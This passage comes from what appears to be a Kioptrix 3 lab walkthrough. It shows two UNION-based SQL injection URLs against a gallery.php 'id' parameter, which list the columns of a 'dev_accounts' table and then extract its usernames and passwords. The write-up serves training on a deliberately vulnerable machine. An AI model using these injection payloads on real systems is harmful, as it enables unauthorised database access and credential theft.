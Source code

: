    One such table appears to be `dev_accounts`. 

5. The next step would be to determine the columns in `dev_accounts` table.

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%201,%20column_name,%203,%204,%205,%206%20%20FROM%20information_schema.columns%20where%20table_name=%27dev_accounts%27--
   ```

   Here, we are retrieving the list of `column_name` from the table `information_schema.columns` where the `table_name='dev_accounts'`. The table `information_schema.columns` holds the details of all the columns in the database.

   ![dev_accounts_columns](./.images/dev_accounts_columns.png)

   Here, we can that there are 3 columns in the table `dev_accounts` . 

6. The next step would be to extract the data from the table `dev_accounts`.

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%201,%20id,%20username,%20password,%205,%206%20%20FROM%20dev_accounts--
   ```
